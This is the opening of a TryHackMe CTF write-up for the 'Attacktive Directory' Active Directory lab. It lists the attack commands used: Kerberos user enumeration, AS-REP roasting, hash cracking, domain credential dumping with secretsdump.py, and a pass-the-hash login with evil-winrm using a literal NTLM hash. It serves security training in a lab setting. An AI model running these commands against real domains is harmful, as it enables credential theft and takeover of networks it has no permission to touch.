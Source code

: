 ```yaml
---
title: Writeup - THM - Attacktive Directory
author: Fr3akazo1d!
date: 2020-11-03 
categories: [Hacking, Walkthrough]
tags: [tryhackeme, Active Direcotry, hacking, pwned, enum4linux, kerbrute]
image: /assets/img/thm-images/THM-AttactriveDirctory.png
image: /assets/img/thm-images/THM-AttactriveDirctory-1.png
---
```

# General Information

| Room        | Date        | Difficulty | Tags                               | Time |
| ----------- | ----------- | ---------- | ---------------------------------- | ---- |
| Attacktive Directory | 03.11.2020  | medium       | Active Directory, AD, Kerberos, SMB | 6h   |


# Used Programs

| Program  | Command |
| --------- | -------- |
| namp     | nmap -sC -sV -oN nmap/initial $ip|
| rustscan | rustscan $ip --ulimit 5000 -- -sC -sV -oN nmap/initial  tee output |
| enum4linux | enum4linux -d $ip | 
| kerbrute | ./kerbrute_linux_amd64 userenum -d spookysec.local --dc spookysec.local '/home/fr3akazo1d/Pen-Testing/THM/Boxes/AttractiveDirectory/user.txt' |
| GetNPUser.py | python3 GetNPUsers.py spookysec.local/s*******n -no-pass |
| JohnTheRipper | sudo john kerberushash --wordlist=password.txt  |
| metapsloit | msf6 auxiliary(admin/smb/download_file) |
| smbclient | smbclient \\\\spookysec.local\\backup -U s*******n |
| secretsdump.py | python3 secretsdump.py -just-dc backup@spookysec.local |
| evil-winrm | evil-winrm -u administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.124.175 |

# Usefull Information 

I have added the IP-Address of the room to my local /etc/hosts file, because we need it for further enumeration of the domain controller. 

# Impacket

For this Room we have to install Impacket. 
